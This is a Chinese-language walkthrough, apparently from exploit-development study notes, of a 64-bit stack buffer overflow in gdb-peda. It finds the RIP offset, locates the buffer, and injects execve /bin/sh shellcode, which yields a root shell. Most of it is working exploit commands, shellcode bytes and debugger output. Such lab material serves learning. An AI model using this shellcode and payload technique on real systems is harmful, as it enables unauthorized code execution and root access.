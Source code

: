 
程序崩溃了,但是并没有覆盖掉RIP,这是因为最大的地址位`0x00007FFFFFFFFFFF`,我们把RIP覆盖成了非法的地址`0x4141414141414141`这造成了进程的异常,为了能够控制RIP,我们需要把它的值变为`0x0000414141414141`,现在我们的目标就是找到这个offset,我们可以使用cyclic来完成.

找到了offset

```
gdb-peda$ r `python -c 'print "A"*270'`
```

结果

```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```

找到写入shellcode的地址

```
gdb-peda$ p &buf
$2 = (char (*)[256]) 0x7fffffffe2f0
gdb-peda$ x/32gx 0x7fffffffe2f0
0x7fffffffe2f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe300:	0x4141414141414141	0x4141414141414141
0x7fffffffe310:	0x4141414141414141	0x4141414141414141
```

27字节的64位shellcode如下`\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05`
或者`\x90\x90\x90\x90\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05`

最终结果

```
gdb-peda$ r `python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" +"A"* 237 + "\xf0\xe2\xff\xff\xff\x7f"'`
...
...
Input:1?谎𽃭𺀿𸳮H髹ST_𼁒WT^?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA疴
process 21665 is executing new program: /usr/bin/bash
Xshellsh-4.2# who   
[New process 21674]
process 21674 is executing new program: /usr/bin/who
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
root     pts/0        Nov 19 13:31 (61.172.240.228)
```